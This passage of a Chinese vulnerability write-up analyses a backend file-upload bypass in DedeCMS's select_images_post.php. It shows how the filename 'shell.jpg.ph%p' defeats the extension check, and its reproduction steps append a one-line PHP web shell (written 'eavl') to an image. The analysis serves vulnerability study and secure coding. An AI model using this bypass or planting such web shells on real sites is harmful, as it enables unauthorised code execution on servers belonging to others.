require_once(dirname(__FILE__)."/config.php");

// 过滤非法字符
$imgfile_name = trim(preg_replace("#[ \r\n\t\*\%\\\/\?><\|\":]{1,}#", '', $imgfile_name));

// 校验文件类型
if(!preg_match("#\.(".$cfg_imgtype.")#i", $imgfile_name))
{
    ShowMsg("你所上传的图片类型不在许可列表，请更改系统对扩展名限定的配置！", "-1");
    exit();
}

// 拼接文件名，得到上传文件的绝对路径
$filename_name = $cuserLogin->getUserID().'-'.dd2char(MyDate("ymdHis", $nowtme).mt_rand(100,999));
$filename = $mdir.'/'.$filename_name;
$fs = explode('.', $imgfile_name);
$filename = $filename.'.'.$fs[count($fs)-1];
$fullfilename = $cfg_basedir.$activepath."/".$filename;

// 上传文件
move_uploaded_file($imgfile, $fullfilename) or die("上传文件到 $fullfilename 失败！");
```

下面，我们就对其中的代码进行分析。`require_once(dirname(__FILE__)."/config.php");`中存在关键的代码：
```PHP
//检验用户登录状态
$cuserLogin = new userLogin();

if($cuserLogin->getUserID() <=0 )
{
    if(empty($adminDirHand))
    {
        ShowMsg("<b>提示：需输入后台管理目录才能登录</b><br /><form>请输入后台管理目录名：<input type='hidden' name='gotopage' value='".urlencode($dedeNowurl)."' /><input type='text' name='adminDirHand' value='dede' style='width:120px;' /><input style='width:80px;' type='submit' name='sbt' value='转入登录' /></form>", "javascript:;");
        exit();
    }
	$adminDirHand = HtmlReplace($adminDirHand, 1);
    $gurl = "../../{$adminDirHand}/login.php?gotopage=".urlencode($dedeNowurl);
    echo "<script language='javascript'>location='$gurl';</script>";
    exit();
}
```
检查了当前用户的用户状态，如果不是`admin`，则退出当前的操作，所以这也就说明**这是一个后台的文件上传漏洞**。

过滤代码如下：
```PHP
// 过滤非法字符
$imgfile_name = trim(preg_replace("#[ \r\n\t\*\%\\\/\?><\|\":]{1,}#", '', $imgfile_name));

// 校验文件类型
if(!preg_match("#\.(".$cfg_imgtype.")#i", $imgfile_name))
{
    ShowMsg("你所上传的图片类型不在许可列表，请更改系统对扩展名限定的配置！", "-1");
    exit();
}
```
其中的`$cfg_imgtype`内容是`$cfg_imgtype = 'jpg|gif|png';`，程序的本意是仅仅只允许上传jpg/gif/png。但是这段过滤代码存在两个问题
   1.  `$imgfile_name = trim(preg_replace("#[ \r\n\t\*\%\\\/\?><\|\":]{1,}#", '', $imgfile_name));`，直接将其中的非法字符串替换掉。那么如果我们上传的`xxx.jpg.ph%p`这种后缀的文件，不仅过滤绕过全局的图片过滤函数，还可以通过此处的`preg_replace()`，去掉多余的`%`，得到`xxx.jpg.php`.
   2. `$fs = explode('.', $imgfile_name);`，对`$imgfile_name`按照`.`进行分割，此时得到的就是`xxx`,`jpg`,`php`
   3. `$filename = $filename.'.'.$fs[count($fs)-1];`,取其中一个最后的后缀进行拼接。此时`$fs[count($fs)-1]`得到的就是`php`。

至此，整个漏洞的分析都已经完成了，最为关键的是将文件名变为`xxx.jpg.ph%p`类似的形似，不仅可以绕过全局过滤同时还能够利用`select_images_post.php`写法不当的问题得到`php`的后缀，从而写入shell。

### 漏洞复现
1. 登录到后台,从后台进入到会员中心/内容中心/发表文章，在编辑文章的地方，选择上传图片，最后选择本地上传图片。

    

2. 选择一张正常的图片上传，将上传的文件名修改为`shell.jpg.ph%p`，在文件内容的最后加上shell代码，`<?php @eavl($_POST[cmd]);?>`。当系统将图片内容写入之后，会返回文件地址。如下：

    

3. 得到上传的shell地址之后，访问地址即可。

    

### 总结
这个漏洞的主要原因还是由于`select_images_post.php`对上传的错误处理方式导致的，将后缀中的特殊删除，其次不是直接判断文件后缀而是判断文件名中是否存在白名单的后缀，最后则是取文件后缀的方法，没有对文件后缀进行任何的过滤。结合这三点的原因造成来的这个漏洞。

这个漏洞应该可以作为一个文件后缀处理的反面典型了。

[返回目录](#目录)
